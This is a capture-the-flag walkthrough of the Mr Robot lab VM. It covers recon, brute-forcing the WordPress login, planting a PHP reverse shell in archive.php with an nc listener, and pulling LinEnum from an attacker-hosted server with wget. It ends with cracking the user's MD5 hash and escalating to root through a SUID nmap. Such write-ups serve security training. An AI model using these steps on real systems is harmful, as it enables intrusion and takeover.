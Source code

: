 # flag 1
### the startup process
When starting any CTF like this one i scan the VM with nmap to see if there is any open services.
Upon search port 80 was open to a HTTP service
When you go to the IP:80 you will be greeted with a mr robot themed shell with afew commands you can use. 
I tried each of these and beyond the cool visuals got nothing from them.

### What i did next
I then decided to scan the directory of the site using dirsearch.
Upon completion i saw the site was using robots.txt which is a file that excludes items from webcrawling.
After opening robots.txt you will see the file name for the first flag which was then found.
You will also find a .dir file containing what i think is possible usernames to the website

# flag 2
For the next step i investigated the wordpress login i found during the dirsearch
I used burpsuite with the dictionary found during flag one and got the username "elliot"
I then used the found username with the same dic file

### tools used
I could of continued to use burpsuite but its slow for such a large dataset.
I decided to use WPScan as it allows for faster password attacks since its not limited 

After the wordlist i found earlier had ran for abit i got the password.

Once i had access to the wordpress i needed to find a way to get a shell on my terminal from the vulnerable machine

For this i used a PHP reverse shell exploit from Pentestmonkey
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
I inserted the code into the archive.php site and then when i go to this site the exploit will auto execute giving me a reverse shell
First i set up the listener
```
└─$ nc -nvlp 8080      
listening on [any] 8080 ...
```

then when i went to the site i got the execution of exploit and a shell in my terminal 
```
connect to [IP] from (UNKNOWN) [IP] 50319
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:45:12 up 13:26,  0 users,  load average: 0.00, 0.01, 0.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### what i found using the reverse shell
in the /home/robot/ directory is two files
key-2-of-3.txt
and a password hash

I cannot access the key without the correct permissions so for this we will need to crack the password hash.
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```
is the password has for robots user
For the cracking of the hash i used a online md5 cracking website
That successfully gives you the password

### the trouble
After this i was stuck on how to login to the user i had now got the password for.
I tried to SSH into it but couldnt get passed a connection fail
This is when someone suggested i needed to include the bin/bash folder so using python i did this with the command
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
after this i could login as robot by doing 
```
su robot
```
and the password

Once i had the user set as robot i was able to go to /home/robot and open key-2-of-3.txt successfully getting the key

# flag 3

To get the root shell i needed more information so i put LinEnum on a webserver and downloaded it to the shell i had created in flag 2 using
```
wget IP:port/LinEnum.sh
chmod -x LinEnum.sh
```
I then ran the script and found this
```
[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
```
This tells me i can exploit the nmap install on the server
I went to GTFOBins and looked for NMAP

I had to find the version of nmap running so i did 
` /usr/local/bin/nmap `
and found it was version 3.81
meaning i could run the command

```
nmap --interactive
!sh
```
After this you will have root access and in the root folder you will find key-3-of-3.txt

# complete! 


